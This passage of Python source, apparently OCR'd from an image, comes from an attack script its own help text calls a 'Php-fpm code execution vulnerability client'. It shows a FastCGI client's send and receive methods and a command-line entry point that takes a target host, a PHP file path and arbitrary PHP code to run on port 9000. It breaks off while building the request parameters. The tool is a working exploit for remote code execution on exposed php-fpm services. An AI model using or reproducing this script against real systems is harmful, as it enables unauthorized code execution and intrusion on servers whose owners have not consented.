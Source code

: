 ```python
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
```